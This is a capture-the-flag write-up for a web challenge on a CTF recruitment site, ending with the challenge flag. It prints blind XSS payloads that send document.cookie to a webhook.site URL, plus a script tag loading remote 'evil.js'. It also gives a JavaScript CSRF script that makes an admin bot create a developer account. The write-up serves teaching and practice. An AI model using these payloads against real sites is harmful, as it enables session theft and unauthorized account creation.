









# Write up - Raas Recruitment

## Category

Web

## Description

We found the APT403 recruitment site.

Tried to find a way to exploit their website  !

https://recruitment.cyberthreatforce-ctf.com/

## Solution

We arrive first on a page that seems to let us create an account:

If we register on the site, we are redirected to a page that confirms our registration, but nothing more. Since this is the only page we have access to, we'll have to play with it to see what we can do.

We could be tempted to try SQL injections, but that doesn't work. 

(Note: It was actually possible to perform an SQL injection, but this was not planned by the author of the challenge. So I won't detail how to do it in this write-up).

So I decide to intercept the request with burp, to see how the parameters are passed: 

So we notice that the form is a multipart, and that only the fields already visible are sent. Since we don't have any other entry points, and the challenge seems realistic, I'll play with the parameters, and one in particular. 

When we create a web site and we put a checkbox, the value (normally) returned will be either "yes" or "no". It can be thought that a developer does not think to check the value sent. 

Note: From this step, any exploit will be done in blind since we have no return.

I tried to inject the following payloads:

- <code>< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>
- <code>">< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>
- <code>">'>< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>

With the last payload, the magic happens:

So, for the first part of this challenge, it is a blind xss!, on the other hand, there is no coookie. Indeed, with a little recognition, we find the endpoint "/admin", but obviously we don't have access to it. 

Our blind xss will be used to leak this page with the bot ! I will use the following payload:

Unfortunately, the payload doesn't go through, but it's not because of the bot, in fact, there must be a character limit that prevents us from sending such a large payload. So here we will simply write this javascript in a file, put it on a VPS, and use the following payload:

- <code>">'>< script src="https://midnightflag.fr/evil.js">< /script></code>

Note: You have to load the javascript from a site using "https", otherwise it won't work.

We send the payload and .... no return. Indeed, the administration page of the admin must be important in size, which makes that the URL will be too long, and the request will not succeed. So we have to use substr, to select only a part of the HTML page:

We send back our payload, and we get a response from the bot:

Here I'll spare you the long method of leaking the whole page, and only show you the interesting part:

So we see a link to a hidden part of the site "/bingvxyyaknprxtgwexgldwdcrcqrfacDEV/", if we go there, we observe a simple login page:

From the HTML above, we will have to create an account. But, something caught my eye, indeed, after reading the HTML, I noticed this javascript script: "prcmSDAui9SeXxbuuaUKjEAJ5qIGY9B9vPFMwW19.js", so I'm going to look at this script to see what it does. After a little bit of deobfuscation, we see this part that seems to make the request to create a "DEV" account:

<code><pre>
let _0x4b66bd = new FormData();
_0x4b66bd.append("username", trim($("#.username").val())) 
_0x4b66bd.append("password", trim($('.password').val())), _0x4b66bd.append('password2', trim($('.password2').val()))
$['ajax']({
    'type': "POST",
    'url': "hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",
    'data': _0x4b66bd,
    'cache': ![],
    'contentType': ![],
    'processData': ![],
    'context': this,
    'before': function() {},
    'success': function(_0x1935b7) {
        const _0x2c408d = _0x3d62c3;
        console[_0x2c408d(0x7d)](_0x1935b7), $(_0x2c408d(0x72))[0x0][_0x2c408d(0x71)]();
    }
});
</pre></code>

So we have the link of the real PHP script where we have to type to create our account, and there another problem arises : We will have to make a CSRF thanks to the bot, but it is not a classic form, it is a mutlipart/form-data. 

So I'll try a first payload for the bot to create my account:

<code><pre>
var formData = new FormData();
formData.append("username","Wortax");
formData.append("password","LpmJDIZADr45632!\*");
formData.append("password2","LpmJDIZADr45632!\*");
var xml = new XMLHttpRequest();
xml.open("POST","/admin/hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",true);
xml.send(formData)
</pre></code>

Here, I reproduce the ajax request that we saw above, so I think that the payload is good since it is what is done on the admin side. So we wait for the bot to pass and... the account is not created, we will have to use another payload.

At the beginning of this write-up, remember that we intercepted a request with burp, which allowed us to see that the parameters were passed in multipart/form-data. We will now create our request in this specific form, so that it works:

<code><pre>
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="username"

Wortax
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="password"

Wortax123!
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="password2"

Wortax123!
-----------------------------350181559013892253873845607352--
</pre></code>

We integrate all this in a js script:

<code><pre>
window.onload = function()
{
    var xhr = new XMLHttpRequest();
    xhr.open("POST","/admin/hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",false)
    xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8");
    xhr.setRequestHeader("Accept-Language", "tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------350181559013892253873845607352");
    var body =
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"username\"\r\n\n" +
    "Wortax\r\n"+
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"password\"\r\n\n" +
    "Wortax123!\r\n"+
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"password2\"\r\n\n" +
    "Wortax123!\r\n"+
    "-----------------------------350181559013892253873845607352--\r\n";

    xhr.send(body)
}
</pre></code>

We send this to the bot and try to connect:

Thanks to the author of this challenge! :)

## Flag

CYBERTF{L0ok_M0m_i_C4n_FouNd_XsS_aNd_3xpLoiT_It}